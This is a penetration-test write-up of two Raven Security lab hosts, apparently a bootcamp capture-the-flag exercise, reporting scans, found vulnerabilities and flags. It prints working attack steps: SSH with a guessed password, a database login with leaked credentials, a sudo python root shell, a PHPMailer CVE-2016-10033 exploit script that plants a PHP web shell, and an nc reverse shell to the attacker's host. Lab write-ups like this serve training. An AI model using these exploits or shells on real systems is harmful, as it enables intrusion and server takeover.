


# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS -sV 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00072s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35506/udp   status
|   100024  1          43456/tcp6  status
|   100024  1          45566/tcp   status
|_  100024  1          49362/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h40m00s, deviation: 6h21m03s, median: 0s
|_nbstat: NetBIOS name: TARGET1, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.2.14-Debian)
|   Computer name: raven
|   NetBIOS computer name: TARGET1\x00
|   Domain name: local
|   FQDN: raven.local
|_  System time: 2022-03-03T04:31:07+11:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-03-02T17:31:07
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.72 ms 192.168.1.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.02 seconds

```

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH on port 22. We may be able to ssh into the target machine if we are able to find correct login information.
  - The target is running an Apache server. We may be able to find an existing vulnerability related to Apache 2.4.10.


The following vulnerabilities were identified on each target:
- Target 1
  - Weak passwords
    - A user's password was found to be the same as their username. This gave initial ssh access to the machine. This is a violation of CWE-521: Weak Password Requirements.
  - Sensitive Information within Source Code
    - One of the flags were found in an HTML comment hosted on a webpage. This is a violation of CWE-615: Inclusion of Sensitive Information in Source Code Comments. 
  - Improper handling of private credentials. 
    - A wp_config.php file was found publicly accessible on the server. This contained database login information. This is a violation of CWE-260: Password in Configuration File.
  - Unsalted password hashes
    - Within the WordPress database there was a `wp_users` table. The user's passwords in this table are unsalted and very weak as they were able to be cracked via john with a simple wordlist. This is a violation CWE-916: Use of Password Hash With Insufficient Computational Effort.
  - Improper user sudo privileges 
    - Steven had sudo privileges to `/usr/bin/python`. Due to this we were able to spawn a root shell. This is a violation of CWE-250: Execution with Unnecessary Privileges.


The following is an output of nikto scan on the machine on both the whole host and the wordpress site hosted on the machine.

```bash
root@Kali:~# nikto -C all -h 192.168.1.110
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.110
+ Target Hostname:    192.168.1.110
+ Target Port:        80
+ Start Time:         2022-02-26 10:15:47 (GMT-8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: 41b3, size: 5734482bdcb00, mtime: gzip
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-6694: /.DS_Store: Apache on Mac OSX will serve the .DS_Store file, which contains sensitive information. Configure Apache to ignore this file or upgrade to a newer version.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26523 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2022-02-26 10:18:24 (GMT-8) (157 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
root@Kali:~# nikto -C all -h http://192.168.1.110/wordpress
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.110
+ Target Hostname:    192.168.1.110
+ Target Port:        80
+ Start Time:         2022-02-26 10:18:57 (GMT-8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'link' found, with contents: <http://raven.local/wordpress/index.php/wp-json/>; rel="https://api.w.org/"                 
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type                                                                                                                             
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.                   
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS                                                                                           
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.                                              
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details. 


+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /wordpress/license.txt: License file found may identify site software.
+ /wordpress/: A Wordpress installation was found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wordpress/wp-login.php: Wordpress login found
+ 26522 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2022-02-26 10:22:02 (GMT-8) (185 seconds)

---------------------------------------------------------------------------
```

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used - SSH Access to Webserver due to weak password**
      - First navigated to 192.168.1.110 to view Raven security website. On clicking the blog hyperlink on the homepage, I found a wordpress site located at http://192.168.1.110/wordpress/.
      - Using wpscan enumerated users and any potential vulnerabilities.
      ```
      root@Kali:~# wpscan --url http://192.168.1.110/wordpress --enumerate vp,u
      _______________________________________________________________
          __          _______   _____
          \ \        / /  __ \ / ____|
           \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
            \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_  \
             \  /\  /  | |     ____) | (__| (_||| | | |
              \/  \/   |_|    |_____/ \___|\__,_|_| |_|

          WordPress Security Scanner by the WPScan Team
                          Version 3.7.8
        Sponsored by Automattic - https://automattic.com/
        @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
      _______________________________________________________________

      [+] URL: http://192.168.1.110/wordpress/
      [+] Started: Thu Feb 24 20:11:05 2022

      Interesting Finding(s):

      [+] http://192.168.1.110/wordpress/
      | Interesting Entry: Server: Apache/2.4.10 (Debian)
      | Found By: Headers (Passive Detection)
      | Confidence: 100%

      [+] http://192.168.1.110/wordpress/xmlrpc.php
      | Found By: Direct Access (Aggressive Detection)
      | Confidence: 100%
      | References:
      |  - http://codex.wordpress.org/XML-RPC_Pingback_API
      |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
      |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
      |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
      |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

      [+] http://192.168.1.110/wordpress/readme.html
      | Found By: Direct Access (Aggressive Detection)
      | Confidence: 100%

      [+] http://192.168.1.110/wordpress/wp-cron.php
      | Found By: Direct Access (Aggressive Detection)
      | Confidence: 60%
      | References:
      |  - https://www.iplocation.net/defend-wordpress-from-ddos
      |  - https://github.com/wpscanteam/wpscan/issues/1299

      [+] WordPress version 4.8.7 identified (Insecure, released on 2018-07-05).
      | Found By: Emoji Settings (Passive Detection)
      |  - http://192.168.1.110/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.8.7'
      | Confirmed By: Meta Generator (Passive Detection)
      |  - http://192.168.1.110/wordpress/, Match: 'WordPress 4.8.7'

      [i] The main theme could not be detected.

      [+] Enumerating Vulnerable Plugins (via Passive Methods)

      [i] No plugins Found.

      [+] Enumerating Users (via Passive and Aggressive Methods)
      Brute Forcing Author IDs - Time: 00:00:00 <> (0 / 10)  0.00%  ETA: ??:??:? Brute Forcing Author IDs - Time: 00:00:00 <> (1 / 10) 10.00%  ETA: 00:00:0 Brute Forcing Author IDs - Time: 00:00:00 <> (2 / 10) 20.00%  ETA: 00:00:0 Brute Forcing Author IDs - Time: 00:00:01 <> (3 / 10) 30.00%  ETA: 00:00:0 Brute Forcing Author IDs - Time: 00:00:01 <> (7 / 10) 70.00%  ETA: 00:00:0 Brute Forcing Author IDs - Time: 00:00:02 <> (8 / 10) 80.00%  ETA: 00:00:0 Brute Forcing Author IDs - Time: 00:00:02 <> (9 / 10) 90.00%  ETA: 00:00:0 Brute Forcing Author IDs - Time: 00:00:02 <> (10 / 10) 100.00% Time: 00:00:02

      [i] User(s) Identified:

      [+] steven
      | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
      | Confirmed By: Login Error Messages (Aggressive Detection)

      [+] michael
      | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
      | Confirmed By: Login Error Messages (Aggressive Detection)

      [!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
      [!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

      [+] Finished: Thu Feb 24 20:11:15 2022
      [+] Requests Done: 26
      [+] Cached Requests: 26
      [+] Data Sent: 5.95 KB
      [+] Data Received: 119.956 KB
      [+] Memory used: 207.629 MB
      [+] Elapsed time: 00:00:10
      ```
      - From this, we can see that there are 2 users that may have access to the site - `michael` and `steven`.
      - Attempted an SSH connection using the command 
      ```bash
      ssh michael@192.168.1.110
      ```
      - The password for michael's username was `michael`. This exploit was succesful because there are no sort of password complexity/MFA constraints added to the system to prevent a weak password like this.
      -After logging into the system navigate to the `/var/www` directory and ran:
      ```
      grep -RE flag .
      ```
      After allowing to run, the following output was found:

      
      
      Note you can also see that flag2 can be found this way.

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used - SSH/Directory Traversal**
      - From the same `/var/www/` directory location, when I ran an ls and saw there was a flag2.txt already in the directory. Performing a `cat` on this file showed the results of the second flag.

      

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used - Improperly Stored Credentials**
      - From the hint given in the activity, I knew there was a `wp_config.php` file located somewhere in the `/var/www/html`. The actual file was located at `/var/www/html/wordpress/wp-config.php`.
      - Doing a cat on the `wp-config.php` file led to the following:
      
      
      
      - From this we can see that there is a mysql database running on the machine and we have credentials of `root/R@v3nSecurity`.
      - We can connect to the sql database as seen below and use the wordpress database
        ```
        mysql -uroot -pR@v3nSecurity
        ```
        
        
      
      - After searching through the tables in the database the `wp_posts` table had the information for both flag 3 and 4.
        
        
      
      ```
        mysql> select * from wp_posts where post_title like '%flag%';
      ```
      
      | ID | post_author | post_date           | post_date_gmt       | post_content                            | post_title | post_excerpt | post_status | comment_status | ping_status | post_password | post_name     | to_ping | pinged | post_modified       | post_modified_gmt   | post_content_filtered | post_parent | guid                                                             | menu_order | post_type | post_mime_type | comment_count |
      |----|-------------|---------------------|---------------------|-----------------------------------------|------------|--------------|-------------|----------------|-------------|---------------|---------------|---------|--------|---------------------|---------------------|-----------------------|-------------|------------------------------------------------------------------|------------|-----------|----------------|---------------|
      |  4 |           1 | 2018-08-13 01:48:31 | 0000-00-00 00:00:00 | flag3{afc01ab56b50591e7dccf93122770cd2} | flag3      |              | draft       | open           | open        |               |               |         |        | 2018-08-13 01:48:31 | 2018-08-13 01:48:31 |                       |           0 | http://raven.local/wordpress/?p=4                                |          0 | post      |                |             0 |
      |  5 |           1 | 2018-08-12 23:31:59 | 2018-08-12 23:31:59 | flag4{715dea6c055b9fe3337544932f2941ce} | flag4      |              | inherit     | closed         | closed      |               | 4-revision-v1 |         |        | 2018-08-12 23:31:59 | 2018-08-12 23:31:59 |                       |           4 | http://raven.local/wordpress/index.php/2018/08/12/4-revision-v1/ |          0 | revision  |                |             0 |
      |  7 |           2 | 2018-08-13 01:48:31 | 2018-08-13 01:48:31 | flag3{afc01ab56b50591e7dccf93122770cd2} | flag3      |              | inherit     | closed         | closed      |               | 4-revision-v1 |         |        | 2018-08-13 01:48:31 | 2018-08-13 01:48:31 |                       |           4 | http://raven.local/wordpress/index.php/2018/08/13/4-revision-v1/ |          0 | revision  |                |             0 |
 
      

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce 
      - **Exploit Used - Improper configuration of User Privileges/Unsalted Password Hashes**
      - If we ignore the fact that flag 4 was found in previous steps, from the wp_users table we can see there are password hashes stored for both michael and steven. 
        
        

      - If we copy over these hashes to a separate file, we can use john to crack the password hash.
        
        
      
      - I also separated out steven's hash into a separate file to make cracking with john quicker. (Note if the passwords were salted, john would not have been able to crack the password so easily)
      - After john completed the output was:<br> 
        
        
      
      - Using Steven's login information (`steven/pink84`), SSH into the machine:
        ```
        ssh steven@192.168.1.110
        ```
      - Run `sudo -l` to see what sudo access steven has
      - From the output we can see that steven can run python in escalated privileges. 
      - Use the command `sudo /usr/bin/python -c 'import os; os.system("/bin/sh")'`. After running this and running `whoami` we can see we were able to escalate to root successfully. (Note it is questionable why steven has access to run python as sudo. This may have been a misconfiguration of his privileges.)
      
        
      
      - To find the last flag I did a `cd /` and then ran a find command `find . -name "flag*"`. `flag4` was located at `/root/flag4.txt`
      
        
      
        

  
---
  
The following is in regards to attacking Target 2.


### Exposed Services (Target 2)

Target 2 was identified with IP Address 192.168.1.115. Running an nmap scan yielded the following

```bash
root@Kali:~# nmap -sS -sV -A 192.168.1.115
Nmap scan report for 192.168.1.115
Host is up (0.00079s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          36833/tcp6  status
|   100024  1          40477/udp6  status
|   100024  1          41274/udp   status                                                                                                  
|_  100024  1          55745/tcp   status                                                                                                  
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                      
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)                                                                  
MAC Address: 00:15:5D:00:04:11 (Microsoft)                                                                                                 
Device type: general purpose                                                                                                               
Running: Linux 3.X|4.X                                                                                                                     
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h40m00s, deviation: 6h21m03s, median: 0s
|_nbstat: NetBIOS name: TARGET2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.2.14-Debian)
|   Computer name: raven
|   NetBIOS computer name: TARGET2\x00
|   Domain name: local
|   FQDN: raven.local
|_  System time: 2022-03-03T04:24:57+11:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-03-02T17:24:57
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.79 ms 192.168.1.115

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.36 seconds

```
This scan identifies the services below as potential points of entry:
- Target 2
  - SSH on port 22. We may be able to ssh into the target machine if we are able to find correct login information.
  - The target is running an Apache server. We may be able to find an existing vulnerability related to Apache 2.4.10.


Running a nikto scan on 192.168.1.115:

```bash
root@Kali:~# nikto -C all -h 192.168.1.115
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.115
+ Target Hostname:    192.168.1.115
+ Target Port:        80
+ Start Time:         2022-03-02 09:39:48 (GMT-8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: 41b3, size: 5734482bdcb00, mtime: gzip
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-6694: /.DS_Store: Apache on Mac OSX will serve the .DS_Store file, which contains sensitive information. Configure Apache to ignore this file or upgrade to a newer version.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26523 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2022-03-02 09:41:40 (GMT-8) (112 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Note, similar to the Target 1, clicking around on the Raven Security site and clicking the blog hyperlink from the homepage led to the discovery of a Wordpress site.

Running the same nikto scan against the Wordpress site:

```bash
root@Kali:~# nikto -C all -h http://192.168.1.115/wordpress
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.115
+ Target Hostname:    192.168.1.115
+ Target Port:        80
+ Start Time:         2022-03-02 09:44:11 (GMT-8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'link' found, with contents: <http://raven.local/wordpress/index.php/wp-json/>; rel="https://api.w.org/"
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /wordpress/license.txt: License file found may identify site software.
+ /wordpress/: A Wordpress installation was found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ OSVDB-3268: /wordpress/wp-content/uploads/: Directory indexing found.
+ /wordpress/wp-content/uploads/: Wordpress uploads directory is browsable. This may reveal sensitive information
+ /wordpress/wp-login.php: Wordpress login found
+ 26522 requests: 0 error(s) and 16 item(s) reported on remote host
+ End Time:           2022-03-02 09:46:22 (GMT-8) (131 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

To perform a more in depth enumeration we can use gobuster. gobuster was installed using `apt-get update` to first update the repositories and then `apt install gobuster` to actually install the application.

```bash
root@Kali:~# apt-get update
Get:1 http://mirrors.jevincanders.net/kali kali-rolling InRelease [30.6 kB]
Get:2 http://mirrors.jevincanders.net/kali kali-rolling/main amd64 Packages [18.0 MB]
Get:3 http://mirrors.jevincanders.net/kali kali-rolling/non-free amd64 Packages [176 kB]
Get:4 http://mirrors.jevincanders.net/kali kali-rolling/contrib amd64 Packages [105 kB]
Fetched 18.3 MB in 4s (4,815 kB/s)                        
Reading package lists... Done
root@Kali:~# apt install gobuster
Reading package lists... Done
Building dependency tree       
Reading state information... Done
The following packages were automatically installed and are no longer required:
  bbqsql docutils-common docutils-doc libpython-all-dev python-all python-all-dev python-bson python-bson-ext python-crypto
  python-docutils python-entrypoints python-gevent python-greenlet python-gridfs python-keyring python-keyrings.alt python-pip
  python-pip-whl python-pygments python-pymongo python-pymongo-ext python-roman python-simplejson python-tqdm python-wheel python-xdg
  sgml-base webhandler xml-core
Use 'apt autoremove' to remove them.
The following NEW packages will be installed:
  gobuster
0 upgraded, 1 newly installed, 0 to remove and 2006 not upgraded.
Need to get 2,189 kB of archives.
After this operation, 7,582 kB of additional disk space will be used.
Get:1 http://mirrors.jevincanders.net/kali kali-rolling/main amd64 gobuster amd64 3.1.0-0kali1 [2,189 kB]
Fetched 2,189 kB in 1s (1,622 kB/s)   
Selecting previously unselected package gobuster.
(Reading database ... 311925 files and directories currently installed.)
Preparing to unpack .../gobuster_3.1.0-0kali1_amd64.deb ...
Unpacking gobuster (3.1.0-0kali1) ...
Setting up gobuster (3.1.0-0kali1) ...
Processing triggers for kali-menu (2020.1.7) ...
```

Using gobuster:

```bashroot@Kali:~# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  dir -u 192.168.1.115
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.115
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/02 09:55:01 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 312] [--> http://192.168.1.115/img/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.1.115/css/]
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.1.115/wordpress/]
/manual               (Status: 301) [Size: 315] [--> http://192.168.1.115/manual/]   
/js                   (Status: 301) [Size: 311] [--> http://192.168.1.115/js/]       
/vendor               (Status: 301) [Size: 315] [--> http://192.168.1.115/vendor/]   
/fonts                (Status: 301) [Size: 314] [--> http://192.168.1.115/fonts/]    
/server-status        (Status: 403) [Size: 301]                                      
                                                                                     
===============================================================
2022/03/02 09:56:32 Finished
===============================================================
```

As previously we are able to more clearly see that there is indeed a Wordpress installation on the server. One of the interesting directories to look into is the `/vendor` directory.


If I navigate to `http://192.168.1.115/vendor` and sort the items in order of Last Modified descending, I can see there is a `path` file modified more recently than the other files.


Opening this file led to the discovery of the first flag.


```
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
```

Within the same `vendor` directory there is a `README.MD` file. Opening this file shows that it is in regards to a module called `PHPMailer` which is used for email creation and transferring within PHP.


Also the same `vendor` directory there is a `VERSION` file. Opening this file indicates that the PHPMailer version is `5.2.16`.

We can use `searchspoit` to see whether there may be an existing exploit for this version of PHPMailer. Using searchspoit we have:


Looking into the first couple of PHP < 5.2.18 - Remote Execution scripts we can see that the exploits were disclosed as part of `CVE-2016-10033`.

Using the provided `exploit.sh` script I made the modification to point to the correct target.

```sh
#!/bin/bash
# Lovingly borrowed from: https://github.com/coding-boot-camp/cybersecurity-v2/new/master/1-Lesson-Plans/24-Final-Project/Activities/Day-1/Unsolved

TARGET=http://raven.local/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```
[Exploit Script](exploit.sh)

This script uploads a backdoor.php file after it has been run. The backdoor can then be used to exploit remote code execution.


To test this I navigated to `http://192.168.1.115/backdoor.php?cmd=cmd=cat%20/etc/passwd`. This should execute the command `cat /etc/passwd` and output to the screen. Viewing the Page Source output made the command output easier to read.


Since we have access to remote code execution we can set up a reverse shell. On my Kali machine I set up a netcat listener on port 4444. And on Target 2, I connected to the same listener by navigating to the url `http://192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`.





To find flag2, I did a `cd /var/www/` and did an `ls` the flag 2 was listed as a file in the directory.


```
flag2{6a8ed560f0b5358ecf844108048eb337}
```

To find flag 3 I ran `find /var/www -type f -iname 'flag*'`. There was a flag in the wordpress folder located at `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`

```bash
find /var/www -type f -iname 'flag*'
/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png
/var/www/flag2.txt
```

Navigating to http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png


```
flag3{a0f568aa9de277887f37730d71520d9b}
```
